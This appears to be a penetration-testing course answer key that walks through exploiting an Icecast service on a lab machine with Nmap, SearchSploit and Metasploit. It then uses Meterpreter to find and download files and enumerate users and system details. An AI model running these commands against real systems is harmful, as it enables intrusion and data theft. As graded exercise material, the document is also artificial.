







### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sS -sV -O 192.168.0.20`
      > 
      >
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`
     > 
     >

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
     > 
     >
     
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
     > 
     >

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use 0`
     > 
     >
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`
     > 
     >
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`
     > 
     >
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile*.txt`
     > 
     >
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`
      > 
      >
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: `download 'c:\Users\IEUser\Documents\Drinks.recipe.txt`
      > 
      >

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

     > Answer: `run post/multi/recon/local_exploit_suggester`
     > 
     >

#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: `run post/windows/gather/enum_logged_on_users`
  > 
  >
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: `shell`
  > 
  >
  >
  > Answer: `systeminfo`
  > 
  >
 
C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
   > 
   >
   
### END HW17
   
   
